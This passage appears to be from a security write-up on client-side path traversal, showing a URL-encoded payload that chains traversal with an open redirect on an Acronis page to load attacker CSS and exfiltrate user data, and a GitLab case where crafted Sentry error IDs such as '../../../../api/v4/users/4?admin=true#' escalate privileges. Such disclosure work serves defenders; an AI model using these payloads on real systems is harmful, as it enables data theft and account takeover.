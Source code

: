 To combine the two techniques, you can set the `color_scheme` GET parameter to the following URL-encoded value:

```http
%2F..%2F..%2F..%2Fapi%2F2%2Fidp%2Fauthorize%2F%3Fclient_id%3D
fb2bf44e-ac14-444a-b2a9-e5e81fe73b80%26redirect_uri%3D
%252Fhci%252Fcallback%26response_type%3Dcode%26
scope%3Dopenid%26state%3Dhttp%253A%252F%252Flocalhost%252Fcss%252Fcore.css%26
nonce%3Dbhgjuvrrvpwauibleqhvfqat
```

For clarity, decode this parameter as follows:

```http
/../../../api/2/idp/authorize/?client_id={CLIENT-ID}&
redirect_uri=%2Fhci%2Fcallback&response_type=code&scope=openid
&state=http%3A%2F%2Flocalhost%2Fcss%2Fcore.css&nonce=bhgjuvrrvpwauibleqhvfqat
```

In this payload, the first action is to overwrite the relative path to the root directory of the application. Next, it specifies the vulnerable endpoint for Open Redirect, which then redirects the user to `http://localhost/core/css.css`—where the CSS file used to exfiltrate user information is hosted.

As a result, the browser will load your CSS file, allowing you to exfiltrate personal data from the user.

The final URL to load the external CSS would look like this:

```http
https://mc-beta-cloud.acronis.com/mc/?color_scheme=%2F..%2F..%2F..%2F
api%2F2%2Fidp%2Fauthorize%2F%3Fclient_id%3Dfb2bf44e-ac14-444a-b2a9-e5e81fe73b80
%26redirect_uri%3D%252Fhci%252Fcallback%26response_type%3D
code%26scope%3Dopenid%26state%3Dhttp%253A%252F%252Flocalhost%252Fcss%252Fcore.css
%26nonce%3Dbhgjuvrrvpwauibleqhvfqat
```

**POC**\
[https://youtu.be/srPv75HS6Nk](https://youtu.be/srPv75HS6Nk)

### CSPT leading to 1-click CSRF in Gitlab

{% embed url="https://gitlab.com/gitlab-org/gitlab/-/issues/365427" %}

**Vulnerability Description**

The vulnerability exploits the GitLab error tracking functionality by configuring a project to use a compromised Sentry server. Here’s a detailed breakdown of the attack vector:

**Setup and Configuration:**

An attacker begins by setting up a GitLab project with a malicious Sentry server URL. This server is designed to provide error data with specially crafted IDs that include path traversal sequences. Error tracking is then enabled in the GitLab project using this fake Sentry server. This setup ensures that any errors reported by this server will appear on the GitLab error tracking page.

**Injection and Manipulation:**

The attacker crafts error IDs containing path traversal patterns, such as `../../../../api/v4/`, which manipulate GitLab's API endpoints. For instance, an error ID like `../../../../api/v4/users/4?admin=true#` can be injected to perform actions such as escalating user privileges. The lack of sanitization and validation for these IDs allows such manipulations to reach the API endpoints.
